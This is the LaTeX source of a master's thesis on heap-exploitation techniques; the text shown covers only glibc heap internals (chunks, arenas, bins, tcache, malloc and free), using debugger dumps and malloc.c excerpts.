\documentclass{masterthesis}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref} % links
\usepackage{graphicx}
\usepackage{xspace}
\setlength {\marginparwidth}{2cm}
\usepackage{todonotes}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\lstset{frame=tb,
 backgroundcolor=\color{backcolour},
 showstringspaces=false,
 columns=flexible,
 basicstyle={\small\ttfamily},
 numbers=none,
 numberstyle=\tiny\color{gray},
 keywordstyle=\color{blue},
 commentstyle=\color{dkgreen},
 stringstyle=\color{mauve},
 breaklines=true,
 breakatwhitespace=true,
 tabsize=3
}

% macros
\newcommand*\sizet{SIZE\_T}
\newcommand*\libc{glibc}
\newcommand*\previnuse{PREV_INUSE}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\newcommand*\sbs{small bins}
\newcommand*\Tch{Tcache\xspace}
\newcommand*\Fb{Fast bins\xspace}
\newcommand*\Ub{Unsorted bins\xspace}
\newcommand*\Lb{Large bins\xspace}
\newcommand*\Sbs{Small bins\xspace}

\newcommand*\mallocc{\lstinline{malloc}\xspace}
\newcommand*\callocc{\lstinline{calloc}\xspace}
\newcommand*\freec{\lstinline{free}\xspace}
\newcommand*\mmapc{\lstinline{mmap}\xspace}
\newcommand*\sbrkc{\lstinline{sbrk}\xspace}
\newcommand*\brkc{\lstinline{brk}\xspace}

\newcommand*\Mallocc{\lstinline{Malloc}\xspace}
\newcommand*\Callocc{\lstinline{Calloc}\xspace}
\newcommand*\Freec{\lstinline{Free}\xspace}
\newcommand*\Mmapc{\lstinline{Mmap}\xspace}
\newcommand*\Sbrkc{\lstinline{Sbrk}\xspace}
\newcommand*\Brkc{\lstinline{Brk}\xspace}

\newcommand{\kanote}[1]{\todo[color=blue!20]{#1}}
\newcommand{\glnote}[1]{\todo[color=yellow!20]{#1}}

\newcommand{\refToChapter}[1]{Chapter~\ref{ch:#1}\xspace}
\newcommand{\refToSection}[1]{Section~\ref{sect:#1}\xspace}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}

\graphicspath{ {./images/} }

\begin{document}

\title{A survey of heap-exploitation techniques}

\author{Alireza Karimi}

\advisor{Giovanni Lagorio}

\examiner{Alessandro Armando}

\maketitle

\tableofcontents

\chapter{Introduction}

An application has different types of memory space. Two must important are \emph{heap} and \emph{stack}. Usually, local variables stores in the stack; the stack may also pass the function's parameters. Unlike a stack, the heap is a memory used by applications to allocate memory during run time dynamically, which means an application can request memory and freed memory during execution. The data stored in a heap are accessible by all threads, so, It is important to handle it properly. There are some other differences between stack and heap too:
\begin{itemize}
	\item heap memory can become fragment, but Stack memory won't
	\item heap can access to variable globally, but the stack can access to a local variable only
	\item heap memory allocation perform by developers, but stack allocation perform by compilers
	\item developer have to free heap's memory when they do not need it anymore, but we would not have to handle stack
\end{itemize}
Each of mentioned memory spaces has advantages and disadvantages; as a result, which one to use depends on the circumstances. If we need to handle data in LIFO format, then the stack is the better choice. As we mentioned, The input parameters of a function may send by the stack. In this way, the compiler does not have to free up memory after returning from the function because they automatically remove it. Also, Stack memory space is a better solution for local variable access.

Every platform has a way to interact with heap memory. Our work specifically on \emph{ \libc{}} memory allocator which drives from \emph{ptmalloc} heap implementations, which is itself derived from \emph{dlmalloc}, so, at first we want to discuss \libc{} allocations algorithms and Methods. 

\chapter{Introduction to \libc{} Heap}

In the following sections, we discuss how \libc{} manages heap memory space.
The GNU C library, known as \libc{}, is GNU's implementation of the C standard library. \libc{} provides a wide variety of C standard functions and system call wrappers. \libc{} is not just one ``.so'' library file; instead, it contains many library files. The most famous \libc{} library is the C standard library or Libc. Libc provides macro, type, or function for tasks like memory management.
Libc provide memory management functions like \mallocc, \callocc{} and \lstinline{free}. In C, there is two way to allocate memory; static allocation and automatic allocation\footnote{\href{https://renenyffenegger.ch/notes/development/languages/C-C-plus-plus/C/libc/alloc/index}{\texttt{https://renenyffenegger.ch}}}. The static one allocates in main memory and exists during the execution. Automatic variable allocates on the stack like function variable. \libc{} dynamicaly allocate memory; it allocates during the execution; also, dynamic variable size is unknown during the compile time. We work especially on libc dynamic memory management mechanism. Consider the following code as an allocation sample:
\begin{lstlisting}[language=c,frame=tlrb]
int array[20];
\end{lstlisting}

The above code statically allocates an array of twenty integers. In the mentioned sample, the array size is fixed during the compile-time. However, there may be a situation in which the array size is unknown.
\begin{lstlisting}[language=c,frame=tlrb]
int *array = (int*)malloc(20 * sizeof(int));
\end{lstlisting}
The above code computes the number of bytes required to store 20 integers in memory, then requests that number of bytes from \mallocc{}. Function \mallocc{} returns the pointer to that twenty integers in the memory. Sometimes \mallocc{} cannot allocate memory; in such a scenario, it returns a null pointer.
\begin{lstlisting}[language=c,frame=tlrb]
if (array == NULL) {
  fprintf(stderr, "failed");
  return -1;
}
\end{lstlisting}
After we finish the job and do not need the array anymore, it is possible to release the memory with the \lstinline{free} function.
\begin{lstlisting}[language=c,frame=tlrb]
free(array);
\end{lstlisting}
The \mallocc{} does not clear the allocated memory, so it contains junk data. In order to allocate memory and zero it at the same time, it is possible to use the \callocc{} function.
\begin{lstlisting}[language=c,frame=tlrb]
int *array = calloc(10, sizeof(int));
\end{lstlisting}
In the following, first, \emph{chunk} discuss as heap allocation memory units in \refToSection{chunk}, dynamic memory allocation steps introduce in \refToSection{memoryallocation}, then, introduce \emph{mmap} as one of the libc memory allocation methods in \refToSection{mmap}.  \emph{Arena} introduces in \refToSection{arena} as the main heap area space, then, \emph{Subheap} is discusses in \refToSection{subheaps}. The memory release procedure introduces in \refToSection{free} as the \lstinline{free} function. \emph{Bins} as the main structure of heap space manager by libc introduces in \refToSection{bin}. \lstinline{malloc} discusses in \refToSection{malloc}  as one of the libc functions for memory allocation, after that, in \refToSection{calloc} \lstinline{calloc} introduces as a second option.  In \refToSection{alignment} deals with memory alignment. \refToSection{mallopt} presents \emph{mallopt} as one of the libc functions to customize the behavior of \libc{} memory allocation. \emph{\lstinline{malloc_consolidate}} discuss in \refToSection{mallocconsolidate}  as a special version of \lstinline{free} function.

\section{Chunk}
\label{sect:chunk}
Allocation and free are not the only job of the heap manager. The heap manager needs some mechanism to keep track of the previous allocation and free space.  To achieve this, the heap manager needs to store some metadata.  Moreover, the heap manager needs to align memory in 8 bytes for a 32-bit system and 16 bytes in a 64-bit system.

This allocation metadata and padding are stored alongside the allocated memory, which \mallocc{} returns to the user. For this reason, the heap manager uses a data-structure called \emph{chunk}, each chunk is usually bigger than request memory allocation, because of metadata and alignment. When the user sends a request for memory allocation, the heap manager finds a chunk big enough for user data plus metadata, then, returns a pointer to the user's data section of the chunk. The code below shows the chunk data structure \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;\#l1163}{\texttt{malloc.c}, line 1163}}:

\begin{lstlisting}[language=c,frame=single]
struct malloc_chunk {
 INTERNAL_SIZE_T mchunk_prev_size;
 INTERNAL_SIZE_T mchunk_size;
 struct malloc_chunk* fd; // Forward Pointer, points to next freed chunk
 struct malloc_chunk* bk; // Backward Pointer, points to previous freed chunk
                             // in double link list
 /* Only used for large blocks: pointer to next larger size. */
 struct malloc_chunk* fd_nextsize;
 struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
\end{lstlisting}

An allocated chunk data structure is \emph{different} than a free chunk. An allocated chunk has just the size field (\lstinline{mchunk_size}), while, a freed chunk has also pointers to find the next free chunk.
\emph{The memory area used for these pointers overlaps user's data, returned by \mallocc{}}.
Consider the following code which allocates 3 chunks of 8 bytes and free them after:

\begin{lstlisting}[language=c,frame=tlrb]
int main(){
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);
	free(a);
	free(b);
	free(c);
}
\end{lstlisting}

Take a look at heap structure after allocation:

\begin{lstlisting}[language=c,frame=tlrb]
Allocated chunk
Addr: 0x555555559290
Size: 0x21

Allocated chunk
Addr: 0x5555555592b0
Size: 0x21

Allocated chunk
Addr: 0x5555555592d0
Size: 0x21

Top chunk
Addr: 0x5555555592f0
Size: 0x20d11
\end{lstlisting}

As you can see, after three allocations the heap has 4 chunks. The first three are requested by a user, the final chunk with a big size is the \emph{top chunk}. The top chunk is the remaining free space in the current heap. Now look at returned address by \libc{}:

\begin{lstlisting}[language=c,frame=tlrb]
pwndbg> p a
$3 = (int *) 0x5555555592a0
pwndbg> p b
$4 = (int *) 0x5555555592c0
pwndbg> p c
$5 = (int *) 0x5555555592e0
\end{lstlisting}

As mentioned above, the returned address by \libc{} is not the address of chunk, but, the address of its data section. If we subtract these two numbers we can see a 16 bytes difference, which is used for metadata. If you look at the chunk data structure, there are two \lstinline{INTERNAL_SIZE_T} is used to keep the size of the chunk. The \libc{} documentation says that \lstinline{INTERNAL_SIZE_T} is the word-size used for internal bookkeeping of chunk sizes''. The default size is equal to \sizet{}. Now, if we take a look inside the memory:

\begin{lstlisting}[frame=tlrb]
gef: x/16xg 0x0000555555559290
0x555555559290:	0x0000000000000000	0x0000000000000021
0x5555555592a0:	0x0000000000000000	0x0000000000000000
0x5555555592b0:	0x0000000000000000	0x0000000000000021
0x5555555592c0:	0x0000000000000000	0x0000000000000000
0x5555555592d0:	0x0000000000000000	0x0000000000000021
0x5555555592e0:	0x0000000000000000	0x0000000000000000
0x5555555592f0:	0x0000000000000000	0x0000000000020d11
0x555555559300:	0x0000000000000000	0x0000000000000000
\end{lstlisting}

In the above allocation, we have 16 bytes of metadata plus 8 bytes of memory allocation, which total allocation becomes 24 bytes. However, \libc{} must keep memory in 16-byte alignment; as a result, the final allocation is 32 bytes. Please look at the size field in an allocated chunk; we can see the size is not 32 but 33. The reason is that the three least significant bits are used for special purposes (we will dicuss those details later):
\begin{enumerate}
	\item A (\lstinline{NON_MAIN_ARENA}): does the chunk belong to the main arena?
	\item M (\lstinline{IS_MMAPPED}): was the chunk allocated through \mmapc{}?
	\item P (\lstinline{PREV_INUSE}): is the previous chunk in use?
\end{enumerate}
Free chunks need more metadata to keep the pointer of the next and previous free chunks. To achieve this, \libc{} uses the data section of the chunk as a place to keep pointer metadata in the free chunk. Take a look at heap after call \lstinline{free}:

\begin{lstlisting}[language=c,frame=tlrb]
Free chunk
Addr: 0x555555559290
Size: 0x21
fd: 0x00

Free chunk
Addr: 0x5555555592b0
Size: 0x21
fd: 0x5555555592a0

Free chunk
Addr: 0x5555555592d0
Size: 0x21
fd: 0x5555555592c0

Top chunk
Addr: 0x5555555592f0
Size: 0x20d11
\end{lstlisting}

Also, retake a look at inside memory; we can see, \libc{} keeps pointer information in chunk's data section. The current execution environment is \libc{-2.31}, the backward pointers point to the data section of the previously freed chunk. The forward pointers point to some data about \tch{}, which discussed in \refToSubSection{tcache}.

\begin{lstlisting}[frame=tlrb]
gef: x/16xg 0x0000555555559290
0x555555559290:	0x0000000000000000	0x0000000000000021
0x5555555592a0:	0x0000000000000000	0x0000555555559010
0x5555555592b0:	0x0000000000000000	0x0000000000000021
0x5555555592c0:	0x00005555555592a0	0x0000555555559010
0x5555555592d0:	0x0000000000000000	0x0000000000000021
0x5555555592e0:	0x00005555555592c0	0x0000555555559010
0x5555555592f0:	0x0000000000000000	0x0000000000020d11
0x555555559300:	0x0000000000000000	0x0000000000000000
\end{lstlisting}

\section{Memory Allocation}
\label{sect:memoryallocation}
 First, we discuss the heap manager in a simple algorithm; then, we discuss each part in detail. The first question is, what happens when the user requests a memory allocation:
\begin{enumerate}
	\item Heap manager checks previously freed chunk, if there is a chunk big enough, then, return it.
	\item If the heap manager is unable to find a previously freed chunk, then look at the top chunk. If there is enough available space, then allocates a new chunk and returns it.
	\item If there is not enough space, then ask the kernel for new memory to extend the heap and allocate the chunk from this new space.
	\item If all the above fails, then \mallocc{} returns \lstinline{NULL}, which means we cannot allocate the requested memory.
\end{enumerate}

\subsection{Allocation from Free Chunks}
As we mentioned, previously freed chunks are the first place search by the heap manager. Heap manager tracks of freed chunks via some linked list call \emph{bins}. When a new allocation request arrives; the heap manager looks at bins to find a chunk big enough. If the chunk has the same size, then the heap manager returns it. Otherwise, if the chunk is larger than requested, then the heap manager split it. There are several different types of bins which we discuss later.

\subsection{Allocation from Top Chunk}
So what does happen if there is no suitable free chunks? In this situation, the heap manager checks the remaining space at the end of the heap, that is, the \emph{top chunk}. If there is enough space to create a chunk for the request, then it is created and returned.

\subsection{Asking for more memory}
Assume we do not have any suitable free chunk, and the request is bigger than the remaining space in the top chunk. In this case, the heap manager asks the Linux kernel for more memory. Now we have to discuss another system call \brkc. When a program executes, the heap manager calls \sbrkc, which used the \brkc system call. This system call allocates memory just after the program gets loaded.
When the heap cannot be extended in this way, because the newly allocated region would collide with something else in the process's address space (e.g. a dynamic library), then the heap manager cannot allocate contiguous memory and calls \mmapc{} to allocate non-contiguous memory space.

\section{MMAP}
\label{sect:mmap}
The heap manager uses \mmapc{}, instead of \sbrkc, also for large memory allocations. That is, when the user requests a size larger than a certain threshold. Chunks metadata contain a special flag for these reasons, which indicate this chunk allocated off-heap via \mmapc{}. When the user releases the memory by calling \lstinline{free}, these chunks are \lstinline{unmmap}ed. By default, the \mmapc{} threshold is 128KB, then dynamically grows to 512KB \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;\#l3263}{\texttt{malloc.c}, line 3263}} for 32-bit and 32MB for 64-bit systems.

\section{Arenas}
\label{sect:arena}
Concurrency is a challenge in multi-thread applications, and heap manager is not safe from this issue. There are many solutions to handle race conditions. In the early days, the heap manager used a simple global lock before every heap operation to synchronize access to shared data. However, this approach has a high cost. In multi-thread applications with heavy use of the heap this strategy leads to substantial performance issues because the heap needs to lock many times.

To improve the performance \emph{ptmalloc2} introduces a concept called \emph{arena}. Different threads may have their own arena, and each arena manages its chunks. As a result, threads can work simultaneously in the different arenas without the need to synchronize their access to a shared data structure.

As we will see, each arena consists of one or more (sub)heaps, as detailed in \refToSection{subheaps}.

When a process creates a new thread, the heap manager finds a new arena up to the maximum allowed number. The default value from the maximum number of the arena is $(2\cdot\mathrm{number\ of\ CPU\ cores})$ for 32-bits, and $(8\cdot\mathrm{number\ of\ CPU\ cores})$ for 64-bits. You can tune this value by using \lstinline{mallopt} function, as discussed in \refToSection{mallopt}. So, what happens when we reach max number? Thread has to share the arena.

As we saw before, the main arena grows by using the \sbrkc system call. This is not true for secondary arenas \refToSection{subheaps}, which grow by calling \mmapc{}.

\section{Subheaps}
\label{sect:subheaps}
The main heap arena is located just after where the program has been loaded and expanded by \sbrkc. We can conclude that in multi-thread applications, which have secondary heaps, \sbrkc can not do this. A secondary arena emulates the main heap arena by using \emph{subheaps}. A subheap works like the main heap; however, there are some differences.

The heap manager asks the kernel to reserve an area of memory for the \emph{subheap} by using \lstinline{mprotect}. Reserving does not allocate memory to subheap; it just tells the kernel: ``do not use this space''. Memory pages are requested with flags \lstinline{PROT_NONE} to achieve this goal.

Then, as the main heap is expanded by calling \sbrkc, the heap manager expands the previously reserved area to subheap by calling \lstinline{mprotect} again, and changing the page flags to \lstinline{PROT_READ|PROT_WRITE}.

\section{Free}
\label{sect:free}
By calling \lstinline{free}, the heap can free up the space. First, it needs to calculate the chunk address from the user pointer. The user has a pointer to the user data section of the chunk, but \lstinline{free} needs the actual address of the chunk, so, by subtracting the pointer address from metadata size, we can find the chunk address. In the following, the heap manager checks if the chunk is \lstinline{mmap}\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3104}{\texttt{malloc.c}, line 3104}}. When the chunk does not allocate by \lstinline{mmap}, the corresponding arena is found\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3124}{\texttt{malloc.c}, line 3124}} and \lstinline{_int_free}\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3125}{\texttt{malloc.c}, line 3125}} calls. 

\begin{lstlisting}[language=c,frame=single]
 /* ... */
ar_ptr = arena_for_chunk (p);
_int_free (ar_ptr, p, 0);
 /* ... */
\end{lstlisting}

Sending an invalid pointer may lead to memory corruption; as a result, the heap manager does some security checks on pointer alignment\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4171}{\texttt{malloc.c}, line 4171}} and size\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4176}{\texttt{malloc.c}, line 4176}} before freeing up space.

\begin{lstlisting}[language=c,frame=single]
 /* ... */
if (__builtin_expect ((uintptr_t) p > (uintptr_t) -size, 0) || __builtin_expect (misaligned_chunk (p), 0))
	malloc_printerr ("free(): invalid pointer");
if (__glibc_unlikely (size < MINSIZE || !aligned_OK (size)))
	malloc_printerr ("free(): invalid size");
/* ... */
\end{lstlisting}

The library in question is version \libc{2.31}, so the first place to put free chunk is \tch{}\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4181}{\texttt{malloc.c}, line 4181}}. 
\begin{lstlisting}[language=c,frame=single]
/* ... */
size_t tc_idx = csize2tidx (size);
if (tcache != NULL && tc_idx < mp_.tcache_bins)
/* ... */
\end{lstlisting}

If the chunk does not fit into \tch{} check the \fb{} as the second place\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4220}{\texttt{malloc.c}, line 4220}}. 

\begin{lstlisting}[language=c,frame=single]
/* ... */
if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())
/* ... */
\end{lstlisting}

In the third step, if the chunk does not eligible to \fb{}, it merges by neighbors in the small, large, and unsorted bin\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4304}{\texttt{malloc.c}, line 4304}}. As the final step if the merged chunk locates at top of the heap, it merges with the top chunk instead of putting it back inside bins\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4336}{\texttt{malloc.c}, line 4336}}. 
\begin{lstlisting}[language=c,frame=single]
/* ... */
if (nextchunk != av->top)
/* ... */
\end{lstlisting}

We should mention in the case of release a chunk with the size bigger than \linebreak \lstinline{FASTBIN_CONSOLIDATION_THRESHOLD} \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4398}{\texttt{malloc.c}, line 4398}}, the heap manager call \lstinline{malloc_consolidate} to merge \fb{} chunks, then put them back inside the \ub{}.

\section{Bins}
\label{sect:bins}
The heap manager requires a mechanism to manage and organize recently freed chunks for the following allocations. The simplest solution to keep track of freed space would be to store them in a single, giant, bin; although this could work, it is not a good solution. \Mallocc{} uses vary wildly, so this approach leads to a performance problem.
To improve performance, the heap manager uses different types of bins. There are five different type of bins: \emph{\sbs{}}, \emph{\lb{}}, \emph{\fb{}}, \emph{\ub{}} and \emph{\tch{}}. All of the mentioned bins exist in the same area of heap manager\footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l1677}{\texttt{malloc.c}, line 1677}}. This is an array of 127 items, as the index 0 is unused.
\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */
mchunkptr bins[NBINS * 2 - 2];
 /* ... */
#define NBINS             128
#define NSMALLBINS         64
 /* ... */
#define largebin_index_32(sz)                                                \
   (((((unsigned long) (sz)) >> 6) <= 38) ?  56 + (((unsigned long) (sz)) >> 6) :\
   ((((unsigned long) (sz)) >> 9) <= 20) ?  91 + (((unsigned long) (sz)) >> 9) :\
   ((((unsigned long) (sz)) >> 12) <= 10) ? 110 + (((unsigned long) (sz)) >> 12) :\
   ((((unsigned long) (sz)) >> 15) <= 4) ? 119 + (((unsigned long) (sz)) >> 15) :\
   ((((unsigned long) (sz)) >> 18) <= 2) ? 124 + (((unsigned long) (sz)) >> 18) :\
   126)
    /* ... */
\end{lstlisting}

Now, we want to discuss how the heap manager recycles a chunk for a new allocation. First, let us consider a simple schema:
\begin{enumerate}
	\item If the M-bit in metadata is set, then this chunk is allocated off-heap, so, it should be freed by using \lstinline{unmmap}.
	\item Otherwise, if the chunk right before this chunk is free, then they merge (the way they are merged depends on many factors, we will detail them in the following sections).
	\item If the chunk right after this chunk is free, then they merge.
	\item After the merge, if the larger chunk is located at the top of the heap, then it absorbed by the top-chunk, instead of being added to bins.
	\item Otherwise, the freed chunk is added to the corresponding bin.
\end{enumerate}

\subsection{\Sbs}
There are 62 \sbs{}, each of them stores chunks of a fixed size; as a result, each list is ``sorted by size'' automatically; also, storing and retrieving chunk from \sbs{} is fast. \Sbs{} holds chunks below 512 bytes in the 32-bit systems, and chunks below 1024 bytes in 64-bit systems, with a double-link list.

\subsection{\Lb}
For chunks over 512 bytes (1024 bytes in 64-bit systems), the heap manager uses another strategy called \lb{}. There are 63 \lb{}. The main difference between small and \lb{} is that \lb{} use a size range instead of a fixed size for every bin. Every bin in the \lb{} stores chunks with a unique size range instead of fixed length, like in \sbs{}, in such a way that they do not overlap with each other.

The other difference is \lb{} needs to sort during the insertion of a chunk. As a result, \lb{} are slower than \sbs{}, however, \lb{} are typically used less than \sbs{} in real programs, so, this is not a big problem. \Lb{} uses double-linked lists like \sbs{}.

\subsection{\Ub}
In real programs, \lstinline{free} is often followed by an allocation of the same size. So, the heap manager introduced another optimization called \ub{}. In this optimization, the heap manager merges freed chunk with its neighbors and puts them inside a general bin called \ub{}, instead of finding the corresponding place in other bins.

Then, when a new allocation request arrives, the heap manager iterates over the item in \ub{}, and compares the requested size to each item. If an item is big enough to accomodate the request, then the heap manager returns it, otherwise it moves the item to the corresponding bin. Consider following \mallocc{} code from \libc{} 2.23 \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;hb=ad372e296b6b944884f14fb5d8f3a6195bfba22b\#l3467}{\texttt{malloc.c}, line 3467}}:

\begin{lstlisting}[language=c,frame=tlrb]
for (;; ){
 int iters = 0;
 while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av)){
 /* ... */
 }
}
\end{lstlisting}

As we can see, \mallocc{} iterate over all items inside \ub{}. We can conclude that when the heap manager tries to find chunks in \ub{}, all of the \ub{} chunks move to corresponding bins.

\subsection{\Fb}
Each bin keeps recently freed chunks in a single-linked list. We have 10 \fb{}, each of them keeps just one chunk size. Chunks in \fb{} do not merge with neighbors; instead, \fb{} keeps them alive, so, if the program sends the same size request, then the heap manager can use these chunks.

The heap manager does not free up \fb{} chunks by do not set P-bit. Of course, this strategy has a downside too. The memory of the process becomes full or fragment after a while; to overcome this issue heap manager needs to 'flush 'memory from time to time. There is not any periodic job to flushing \fb{}, instead, \libc{} uses another variant of free function call \lstinline{malloc_consolidate}.

\subsection{\Tch bins}
\label{subsect:tcache}
Since \libc{-2.26} \tch{} add the last optimization in the heap manager. Usually, in a multi-thread process, resources like heap are share. A shared resource between threads can lead to a problem called \lstinline{race condition}. As we mentioned before, a simple strategy to overcome race conditions is \lstinline{lock} The lock gave temporary ownership of resources to one threat. When the job of the first threat finishes, then the second one can proceed. The lock has a great cost because a program frequently uses the heap manager. The heap manager overcomes this problem by using a secondary arena for each threat until it hits the threshold; moreover, it uses \tch{} per-threat to reduce the cost of the lock. \Tch{} speeds up the allocation by having per-threat bins of a small chunk. When a threat sends an allocation request, the first \tch{} of that threat checks for an available chunk. If \tch{} have a big enough chunk, then threat use it and do not need to wait for a heap lock. In the first sample, we can see chunks added to \tch{} after call free; however, If we execute the same code on \libc{-2.23}, we have a different result because it does not support \tch{}. \libc{} provide 64 \tch{}, each of which stores up to 7 chunks of the same size. 

\begin{lstlisting}[frame=tlrb]
Free chunk (tcache)
Addr: 0x555555559290
Size: 0x21
fd: 0x00

Free chunk (tcache)
Addr: 0x5555555592b0
Size: 0x21
fd: 0x5555555592a0

Free chunk (tcache)
Addr: 0x5555555592d0
Size: 0x21
fd: 0x5555555592c0
\end{lstlisting}

\section{malloc}
\label{sect:malloc}
Let us put all it together to find out how \mallocc{} works. When a new allocation request arrives, \mallocc{} does the following procedure:
Lets consider \libc{-2.31}, In these particular version \tch{} is the first place. If \tch{} have a chunk with the same size, the heap manager return it immediately. If the chunk is bigger than the request, \tch{} will not split it, instead, the heap manager keep it for future requests. In this case, the arena does not need to lock because the chunk returns from \tch{} immediately. Consider the following code \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3047}{\texttt{malloc.c}, line 3047}}:

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */
 if (tc_idx < mp_.tcache_bins && tcache && tcache->counts[tc_idx] > 0){
 return tcache_get (tc_idx);
}
\end{lstlisting}

The above code is inside the \lstinline{libc_malloc}. It is responsible for checking and returns a chunk from \tch{} before locking the arena and search for a chunk. If the \tch{} fail, In the next step, two situations may happen. There is no need to lock at the arena in a single-thread application because there is no concurrency. Instead, in a multi\-thread application heap manager, first, get the corresponding arena and then lock it first. The following code is responsible to check the mentioned situation \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3056}{\texttt{malloc.c}, line 3056}}:

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */
if (SINGLE_THREAD_P){
 victim = _int_malloc (&main_arena, bytes);
 return victim;
}
arena_get (ar_ptr, bytes);
victim = _int_malloc (ar_ptr, bytes);
 /* ... */
\end{lstlisting}

Now we discuss the \lstinline{_int_malloc} function. This function gets the request size, and the arena then tries to allocate a chunk and return it from bins or top chunks. Let us consider \tch{} fails in the previous step. The next place to check is the \fb{}. Also, As we mention, each fast bin keeps just one size of the chunk; as a result, remove and add a chunk to the fast bin is fast \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3577}{\texttt{malloc.c}, line 3577}}.

\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
\end{lstlisting}

In this step, while the heap manager checks the fast bin for a fair chunk, It fills \tch{} too, if found a same size chunk in the fast bin. It is a performance improvement. Usually, the following allocation has the same size too. Hence, the next allocation finds in the \tch{} without the need to arena lock \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3599}{\texttt{malloc.c}, line 3599}}.

\begin{lstlisting}[language=c,frame=tlrb]
size_t tc_idx = csize2tidx (nb);
if (tcache && tc_idx < mp_.tcache_bins){
 /* ... */
 }
\end{lstlisting}

In the following step, the heap manager checks the \sbs{} If the request is in the range of \sbs{} chunk size. Like \fb{}, each \sbs{} keep one chunk size, so, there is no search too \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}}.

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */
if (in_smallbin_range (nb)){
	idx = smallbin_index (nb);
	bin = bin_at (av, idx);
	if ((victim = last (bin)) != bin)
	 /* ... */
\end{lstlisting}

Unlike \fb{}, chunks in \sbs{} use a double link list, so, when you remove one chunk you have to fix the forward and backward pointers for previous and next chunks \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3637}{\texttt{malloc.c}, line 3637}}.

\begin{lstlisting}[language=c,frame=tlrb]
idx = smallbin_index (nb);
bin = bin_at (av, idx);
 /* ... */
bck = victim->bk;
bin->bk = bck;
bck->fd = bin;
\end{lstlisting}

